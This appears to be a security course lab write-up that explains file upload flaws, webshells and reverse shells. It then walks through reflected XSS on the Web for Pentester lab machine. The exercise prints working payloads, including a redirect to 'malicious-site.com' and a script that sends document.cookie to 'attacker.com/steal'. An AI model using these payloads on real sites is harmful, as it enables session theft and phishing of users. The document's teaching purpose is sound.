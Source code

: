 # AEC6 - XSS Vulnerability

### What does a File Upload vulnerability refer to?

When we talk about a **File Upload** vulnerability, we refer to a situation where a web application allows users to upload files but lacks sufficient controls or validations on what types of files can be uploaded. This can be a serious issue because an attacker could upload a malicious file, such as a **webshell**, which could execute code on the server. Essentially, if the system is not properly configured to control what can be uploaded, an attacker can exploit it to execute scripts that compromise the server.

### What are the steps to exploit this type of vulnerability?

Exploiting a **File Upload** vulnerability is not very complicated if you know what you're doing. These are the general steps an attacker would follow:

1. **Find the file upload point**: First, the attacker needs to identify where in the application files can be uploaded. This could be a form or an API. Sometimes, this is found simply by navigating the application and looking for forms or points where something can be uploaded.
2. **Bypass file type filters**: If the application has filters to ensure only "safe" files (e.g., images) are uploaded, an attacker may try to bypass these filters. This could involve changing the file extension (e.g., from `.php` to `.jpg`) or manipulating the file's MIME type so the system accepts it as an "allowed" file, even though it is not.
3. **Upload the malicious file**: Once the attacker bypasses the filters, they upload the file. This file could be a malicious script (like PHP) that, if the server configuration allows, could be executed directly from the server.
4. **Execute the code**: If the uploaded file is a **webshell**, the attacker could access it through a browser and start executing commands directly on the server. This could give them control over the system.
5. **Gain control**: From here, the attacker can execute commands on the server, steal data, modify files, or, in the worst-case scenario, escalate privileges and further compromise the infrastructure.

### What types of filters are typically implemented to prevent them?

To prevent these vulnerabilities, applications should implement several security measures:

- **MIME type validation**: Ensure that files truly match the type they claim to be. For example, it is not enough for a file to have a `.jpg` extension; its content must actually be an image.
- **Extension restrictions**: While not sufficient on its own, limiting the types of files that can be uploaded (e.g., only allowing images like `.jpg`, `.png`, etc.) is a good first step. However, it is also important to validate the content, not just the extension.
- **Disable file execution in upload directories**: The most important step is to ensure that any uploaded file cannot be executed as code. This can be achieved by properly configuring the server to prevent file execution in directories where uploaded files are stored.
- **File scanning**: Some applications use antivirus tools or security analysis programs to review files before they are stored or executed on the server.
- **File size limits**: Limiting the size of uploaded files can prevent attackers from uploading extremely large files that may hide malicious code or overload the system.

### What is a webshell? How can remote control be obtained through a reverse shell?

A **webshell** is essentially a malicious script uploaded to the server that allows an attacker to execute commands on that server, usually through a web interface. This could be a PHP file or a script in another server-side language that, when accessed, gives the attacker the ability to execute code on the compromised server. It is like the attacker has a secret door into the server through which they can control everything.

On the other hand, a **reverse shell** is a technique where, after uploading and executing the malicious file (like a webshell), the attacker gets the server to connect back to their own machine. This is done by opening a network connection where the server connects to a specific port on the attacker's system, allowing them to execute commands remotely. Essentially, it is like the attacker is taking control of the server, but instead of the server connecting to the attacker, the attacker initiates the connection from their machine. Through this shell, the attacker can do anything on the server, from reading files to executing other attacks.

# Exercise 1:

In this exercise, we will exploit a vulnerability in a web application that allows file uploads, known as a **File Upload** vulnerability. This vulnerability occurs when an application does not properly validate the files users upload, which could allow an attacker to upload a malicious file (like a PHP script) and execute code on the server. Here is how it would be done step by step.

### Start the Web for Pentester machine

The first step is to start the **Web for Pentester** machine in my testing environment. To find out which IP address I need to access from my browser, I use the `ifconfig` command in Kali Linux to obtain the IP address of the testing machine.

```bash
ifconfig
```

Here, I look for the IP address in the network interface I am using (e.g., `eth0` or `ens33`). In this case, the IP address I get is something like `172.34.54.2`. This will be the address I use to access the web application from the browser.

### Access the web application

Once I have the IP address of the machine, I open the browser in Kali Linux and type the IP address, such as `https://172.34.54.2`. This will take me to the homepage of the web application I am testing.

### Inject a basic XSS payload

To test if the website is vulnerable to **Reflected XSS**, the first thing I do is try to inject a basic payload that should trigger an alert in the browser. The simplest payload I can use is:

```html
<script>alert('XSS');</script>
```

This code is a simple JavaScript script that executes an alert with the message "XSS". What I will do is inject it into an input field on the vulnerable website.

For example, suppose I find a search field on the page, and the search URL looks something like this:

```
http://192.168.68.124/xss/example1.php?name=hacker
```

In this case, the `name` parameter seems like a good entry point to inject code. So, I modify the URL and replace the value of the `name` parameter with the XSS payload:

```
http://192.168.68.124/xss/example1.php?name=<script>alert('XSS');</script>
```

![alt text](image-1.png)

When I do this, I expect the server to **reflect** the value I put in the `name` parameter on the results page without filtering the malicious code. If the website does not properly sanitize that input, the script will execute in the browser.

### Confirm the XSS vulnerability is present

Now, I load the modified URL in my browser. If the site is vulnerable to **Reflected XSS**, I should see a pop-up window with the message **"XSS"**.

If this happens, I can confirm that the site is vulnerable to this type of attack because the code I injected executed in the browser and displayed the alert. This is evidence that the server did not properly validate the input and allowed the malicious code to execute.

At this point, I take a screenshot of the alert box to document that the attack was successful.

### Inject a malicious redirection payload

To further demonstrate this vulnerability, I will inject a **script** to **redirect** the user to a malicious website, which also shows the severity of the XSS vulnerability.

This script redirects the user to a phishing or malicious page:

```html
<script>
    window.location = "http://malicious-site.com";
</script>
```

The final URL with this payload would be:

```
http://192.168.68.124/xss/example1.php?name=<script>window.location%20=%20"http://malicious-site.com";</script>
```

### What to expect with this payload:

- **If the site is vulnerable**, the user will be automatically redirected to the malicious site, demonstrating that the attacker can control the user's navigation.

When we inject the script, upon reloading, it immediately redirects us to the malicious page.

![alt text](image.png)

### Inject a cookie theft payload (advanced vulnerability confirmation)

Now I will **further exploit** the vulnerability by injecting a **moderately advanced script** that steals the user's cookies and sends them to a server controlled by the attacker.

This is the **payload** we will use:

```html
<script>
    var xhttp = new XMLHttpRequest();
    xhttp.open("GET", "http://attacker.com/steal?cookie=" + document.cookie, true);
    xhttp.send();
</script>
```

The final URL with this payload would be:

```
http://192.168.68.124/xss/example1.php?name=<script>var%20xhttp%20=%20new%20XMLHttpRequest();%20xhttp.open("GET",%20"http://attacker.com/steal?cookie="%20+%20document.cookie,%20true);%20xhttp.send();</script>
```

### What to expect with this payload:

- **If the site is vulnerable** to XSS, this script will send the user's cookies to the attacker's server (in this case, **http://attacker.com/steal**).